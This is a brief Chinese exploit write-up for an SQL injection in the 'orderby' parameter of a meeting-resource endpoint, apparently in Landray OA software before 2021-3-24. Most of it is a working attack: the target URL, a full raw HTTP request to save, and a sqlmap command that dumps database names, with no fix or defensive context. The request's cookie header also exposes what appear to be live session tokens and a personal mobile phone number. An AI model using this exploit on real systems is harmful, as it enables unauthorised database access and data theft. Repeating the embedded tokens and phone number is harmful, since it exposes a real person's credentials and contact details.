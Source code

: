 <languages />

漏洞影響
--------

2021-3-24 前版本

漏洞利用
--------

存在SQL注入的 Url為:

    https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true

其中存在SQL注入的參數為 ordeby ， 數據包如下:

    GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Connection: keep-alive
    sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
    sec-ch-ua-mobile: ?0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: cross-site
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; j_lang=zh-CN; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616568455; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616568455; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616568455; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; add_customer=0; JSESSIONID=F4A2DFFF611470A0AA00C1B4CEB0800B; LtpaToken=AAECAzYwNUI0NTRBNjA1QkVFMEFsaXd3MjYdcI6ajDXZSNpXOsKhMSNAGaQ=; original_name=16b53df64e78c7c0ab2d4e54165a6415; roletype=%E6%A8%A1%E5%9D%97%E7%AE%A1%E7%90%86%E5%91%98; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616594251

保存為文件，使用 Sqlmap 注入:

    sqlmap -r sql.txt -p orderby --dbs

參考
----

<https://mp.weixin.qq.com/s/jnmB8h9UCztt-FL3aKmn0g>